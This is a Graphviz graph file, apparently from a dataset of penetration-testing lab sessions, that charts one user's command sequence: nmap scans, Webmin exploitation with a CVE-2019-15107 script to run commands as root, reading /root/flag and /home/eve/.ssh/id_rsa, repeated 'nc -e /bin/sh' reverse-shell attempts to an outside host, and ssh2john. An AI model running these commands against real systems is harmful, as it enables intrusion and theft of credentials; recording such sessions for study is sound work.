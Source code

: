 // creating graph for user: 85
digraph {
	node [shape=box]
	0 [label="ls A10 "]
	1 [label="cat ssh2john.py A1 A9 A11 A12 A14 A16 A17 "]
	3 [label="ls A10 "]
	4 [label="nmap A0 A1 "]
	6 [label="nmap 192.168.128.0 A0 A1 "]
	7 [label="nmap 192.168.128.0/24 A0 A1 "]
	9 [label="nmap 10.1.135.0/24 A0 A1 "]
	10 [label="nmap 10.1.135.0/ A0 A1 "]
	11 [label="nmap 10.1.135.0/16 A0 A1 "]
	13 [label="nmap 172.18.1.5 M0 "]
	14 [label="nmap -sV 172.18.1.5 M1 "]
	15 [label="curl http://172.18.1.5:10000/password_change.cgi -d 'user=root&pam=&expired=2 A4 A10 "]
	16 [label="curl http://172.18.1.5:10000/password_change.cgi -d 'user=root&pam=&expired=2 A4 "]
	18 [label="ls A10 "]
	20 [label="ls A10 "]
	21 [label="python CVE_2019_15107.py A13 "]
	22 [label="cat README.md A9 A11 A12 A17 "]
	23 [label="python CVE_2019_15107.py https://172.18.1.5:10000 A13 "]
	24 [label="python CVE_2019_15107.py https://172.18.1.5:10000 id A13 "]
	25 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls A10 A13 "]
	26 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	27 [label="ls /root A10 "]
	28 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root A10 A13 "]
	29 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/ A10 A13 "]
	30 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/; pwd A10 A13 "]
	31 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/; pwd A13 "]
	32 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/; ls A10 A13 "]
	33 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/; ls A10 A13 "]
	34 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/; ls -al A10 A13 "]
	35 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/; A10 A13 "]
	36 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/ pwd; A10 A13 "]
	37 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls -al /root/; A10 A13 "]
	38 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'cd /root; ls'; A10 A13 "]
	39 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'cd /root; ls -al'; A10 A13 "]
	40 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'cd /root; pwd'; A13 "]
	41 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'ls'; A10 A13 "]
	42 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'pwd'; A13 "]
	43 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'pwd' A13 "]
	44 [label="python CVE_2019_15107.py http://172.18.1.5:10000 /bin/bash -c 'echo anal' A13 "]
	45 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	46 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root A13 "]
	47 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ & ls A10 A13 "]
	48 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ A13 "]
	49 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ & echo hello A13 "]
	50 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/ & echo hello' A13 "]
	51 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/ && echo hello' A13 "]
	52 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/ && pwd' A13 "]
	53 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ && pwd A13 "]
	54 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cat /root/flag A9 A11 A12 A13 A17 "]
	55 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	56 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ A13 "]
	57 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	58 [label="python CVE_2019_15107.py http://172.18.1.5:10000 touch file A13 "]
	59 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/ > file A10 A13 "]
	60 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cat file A9 A11 A12 A13 A17 "]
	61 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls A10 A13 "]
	62 [label="ls A10 "]
	63 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	64 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /root' A10 A13 "]
	65 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /root/WARNING-READ-ME.txt' M9 "]
	66 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'find *.txt' A10 A13 "]
	67 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/ && pwd' A13 "]
	68 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/; pwd' A13 "]
	69 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root; pwd' A13 "]
	70 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /' A10 A13 "]
	71 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A10 A13 "]
	72 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/alive' A10 A13 "]
	73 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/alice' A10 A13 "]
	74 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/bob' A10 A13 "]
	75 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/eve' M10 "]
	76 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/.ssh' A13 A16 "]
	77 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa' M12 "]
	78 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/.ssh' A13 A16 "]
	79 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa.pub' A11 A13 A16 A17 "]
	81 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A13 "]
	82 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/debian' A13 "]
	83 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/debian' A13 "]
	84 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/debian/.ansible' A13 "]
	85 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/debian/.ansible/tmp' A13 "]
	86 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /' A13 "]
	87 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /root' A13 "]
	88 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'find -L / *.txt' A13 "]
	89 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'find -L / -name *.txt' A13 "]
	91 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /root' A13 "]
	92 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /' A13 "]
	93 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home' A13 "]
	94 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A13 "]
	95 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A13 "]
	97 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'pwd' A13 "]
	99 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'nc -e /bin/sh 10.1.135.83 8080' A13 "]
	100 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'nc -e /bin/sh 10.1.135.83 8080' A13 "]
	103 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'nc -e /bin/sh 10.1.135.83 8080' A13 "]
	106 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'nc -e /bin/sh 10.1.135.83 8080' A13 "]
	115 [label="python ssh2john.py M13 "]
	0 -> 1 [constraint=false]
	1 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 18 [constraint=false]
	18 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 97 [constraint=false]
	97 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 103 [constraint=false]
	103 -> 106 [constraint=false]
	106 -> 115 [constraint=false]
	rankdir=LR
}

